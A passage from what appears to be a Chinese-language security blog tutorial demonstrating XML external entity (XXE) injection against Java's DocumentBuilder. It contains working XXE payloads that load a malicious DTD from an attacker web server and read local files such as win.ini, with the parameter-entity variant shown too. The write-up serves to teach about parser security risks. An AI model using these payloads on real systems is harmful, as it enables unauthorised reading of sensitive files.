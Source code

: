 运行代码，发现可正常解析，且成功进行了XML实体注入：

![demo](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/2.png)

### 4、测试是否支持解析外部实体：

修改test.xml内容如下，主要修改为SYSTEM执行访问外部链接：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo SYSTEM "http://192.168.17.136:8000/Mi1k7ea.dtd">
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>&tea;</age>
</user>
```

在攻击者的服务器（这里自己开启一个Web服务）的Web目录放置一个Mi1k7ea.dtd文件，内容如下，读取本地C盘中的win.ini配置文件（若在Linux下读取”file:///etc/passwd”会报错，因为这种攻击方式受到XML中禁止字符的限制）：

```
<!ENTITY tea SYSTEM "file:///c:/windows/win.ini">
```

运行代码，在攻击者服务器看到目标程序访问了其中的恶意DTD文件：

![demo](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/3.png)

发现成功通过远程加载解析DTD文件读取了本地文件内容：

![demo](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/4.png)

当然，外部实体还有另一种写法，如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
        <!ENTITY % milk SYSTEM "http://192.168.17.136:8000/Mi1k7ea.dtd">
        %milk;
        ]>
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>&tea;</age>
</user>
```

运行结果和上面是一样的。

至此，我们知道DocumentBuilder是存在XML注入风险的，并且在未设置有效防御措施的时候可支持解析外部实体，即可进行XML外部实体注入攻击(XXE)。

## 0x04 XXE攻击利用

其实前面的测试过程已经是一些利用方式了，如读取本地敏感文件等，但是前提是该XML注入是有回显的。
